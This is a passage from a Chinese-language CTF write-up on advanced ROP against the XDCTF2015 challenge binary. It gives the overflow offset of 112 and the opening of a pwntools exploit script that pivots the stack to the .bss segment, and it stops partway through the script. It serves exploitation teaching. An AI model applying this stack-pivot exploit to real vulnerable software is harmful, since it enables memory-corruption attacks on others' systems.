 ### 正常攻击

可以得到偏移量为 0x6c+4(112)

![Alt](img/wiki-AdvancedRop1.png)
![Alt](img/wiki-AdvancedRop2.png)

#### STAGE1

通过栈迁移到bss段来控制write函数：

1. 将栈迁移到bss段（stack pivot）
2. 控制write函数输出相应的字符串

```python
  from pwn import *
  elf = ELF('main')
  r = process('./main')
  rop = ROP('./main')

  offset = 112
  bss_addr = elf.bss()

  r.recvuntil('Welcome to XDCTF2015~!\n')

  ## stack pivoting to bss segment
  ## new stack size is 0x800
  stack_size = 0x800
  base_stage = bss_addr + stack_size
  ### padding
  rop.raw('a' * offset)
  ### read 100 byte to base_stage
```
